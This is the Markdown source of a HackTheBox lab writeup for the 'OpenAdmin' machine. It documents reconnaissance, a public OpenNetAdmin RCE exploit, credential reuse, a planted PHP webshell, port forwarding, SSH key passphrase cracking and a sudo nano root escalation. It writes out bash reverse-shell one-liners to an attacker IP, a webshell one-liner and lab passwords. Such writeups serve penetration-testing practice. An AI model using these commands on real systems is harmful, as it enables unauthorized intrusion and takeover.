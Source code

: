 ```yaml
---
title: "OpenAdmin - Writeup"
classes: single
ribbon: LightBlue
categories:
  - writeup
tags:
  - writeups
  - pentest
  - writeup
  - oscp
  - shell
  - exploit
  - htb
  - hackthebox
  - machine
  - easy
  - linux
toc: true
hide_title: true
excerpt: ""
sidebar:
        nav: "menu_writeups"
---
```


## OpenAdmin
![](https://kar0nx.github.io/assets/images/writeup/5b00db157dbbd7099ff6c0ef10f910ea.png)
## Reconnaissance

IP: 10.10.10.171
## NMAP

```
nmap -T4 -p- -A 10.10.10.171
```

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-29 08:23 UTC
Nmap scan report for 10.10.10.171
Host is up (0.030s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4b:98:df:85:d1:7e:f0:3d:da:48:cd:bc:92:00:b7:54 (RSA)
|   256 dc:eb:3d:c9:44:d1:18:b1:22:b4:cf:de:bd:6c:7a:54 (ECDSA)
|_  256 dc:ad:ca:3c:11:31:5b:6f:e6:a4:89:34:7c:9b:e5:50 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.95%E=4%D=8/29%OT=22%CT=1%CU=43652%PV=Y%DS=2%DC=T%G=Y%TM=68B163B
OS:0%P=x86_64-pc-linux-gnu)SEQ(SP=102%GCD=1%ISR=10E%TI=Z%CI=Z%II=I%TS=A)SEQ
OS:(SP=104%GCD=1%ISR=108%TI=Z%CI=Z%II=I%TS=A)SEQ(SP=106%GCD=2%ISR=10C%TI=Z%
OS:CI=Z%II=I%TS=A)SEQ(SP=107%GCD=1%ISR=10D%TI=Z%CI=Z%II=I%TS=A)SEQ(SP=FA%GC
OS:D=1%ISR=10B%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M552ST11NW7%O2=M552ST11NW7%O3=M55
OS:2NNT11NW7%O4=M552ST11NW7%O5=M552ST11NW7%O6=M552ST11)WIN(W1=7120%W2=7120%
OS:W3=7120%W4=7120%W5=7120%W6=7120)ECN(R=Y%DF=Y%T=40%W=7210%O=M552NNSNW7%CC
OS:=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T
OS:=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=
OS:0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=N)U1(R=Y%DF=N%T=40
OS:%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 143/tcp)
HOP RTT      ADDRESS
1   29.56 ms 10.10.14.1
2   30.39 ms 10.10.10.171

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.46 seconds
```

SSH and HTTP. So we need to find sth on website

## Website
### Site

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250829102439.png)

default apache page, so I used ffuf to directory fuzzing :

```
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u http://10.10.10.171/FUZZ
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250829102831.png)

And I found 3 directories
/music

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250829102557.png)

after clicking on login we are redirected to /ona

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250829102751.png)

/artwork , nothing special here

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250829102607.png)

/sierra , also nothing special here

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250829102814.png)

back to /ona which is the best place to start cause we automatically log in with guest account and we got version ONA v18.1.1. 
Searching for exploits I found RCE:
https://www.exploit-db.com/exploits/47691
Tried this exploit and I got shell

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250829103410.png)

gaining reverse shell with bash oneliner

```
bash -c 'bash -i >%26 /dev/tcp/10.10.14.8/4444 0>%261'
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250829103638.png)

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250829103627.png)

then I searched for db location and I found that OpenNetAdmin have database located in 
/opt/ona/www/local/config/database_settings.inc.php

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250829105732.png)

Reading database settings I found credentials

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250829105811.png)

ona_sys   n1nj4W4rri0R!
Tried to connect via mysql but nothing happend, so tried switching user (password reused) which was successful with jimmy

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250829110214.png)

## Gaining Access

Linpeas found 2 localhosts

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250829110642.png)

and PHP exec extensions

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250829110745.png)

we see that some site is hosting on port 52846 as joanna. Let's make port forward and check for it.

```
ssh -L 52846:localhost:52846 jimmy@10.10.10.171
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250829111106.png)

Now navigating to localhost on port 52846 we see login panel

```
http://localhost:52846/
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250829111324.png)

Easiest way to escalate to joanna is to add webshell to hosting location /var/www/internal

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250829111834.png)

```
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250829111803.png)

and now just use bash one liner like before for reverse shell:

```
http://localhost:52846/shell.php?cmd=bash%20-c%20%27bash%20-i%20%3E%26%20/dev/tcp/10.10.14.8/4444%200%3E%261%27
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250829111944.png)

We got it and can take user.txt

## Privilege Escalation

From before use of linpeas we know that joanna have sudo priv with nano, but cant confirm it.

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

tried to upgrade tty shell but didn't work for me, so lets copy joanna id_rsa

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250829112500.png)

crack passphase with ssh2john 
bloodninjas

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250829112751.png)

and now we can connect via ssh 

```
ssh -i id_rsa joanna@10.10.10.171
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250829112835.png)

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250829113343.png)

Now I confirm that joanna have sudo rights with /bin/nano. Running commands from gtfobins we go root shell in nano, and we are able to take root flag.

https://gtfobins.github.io/gtfobins/nano/#sudo

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250829113147.png)